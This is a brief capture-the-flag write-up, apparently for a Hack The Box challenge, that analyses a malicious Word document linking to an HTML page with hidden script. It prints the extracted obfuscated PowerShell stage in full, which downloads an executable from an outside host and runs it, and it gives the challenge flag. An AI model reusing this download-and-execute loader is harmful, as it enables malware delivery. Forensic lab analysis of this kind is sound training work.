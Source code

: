 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :*
```sh
$ wget IP/layoffs.doc
```
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* 
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :*
```sh
$ wget IP/223_index_style_fancy.html!
```
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```powershell
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag**just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}
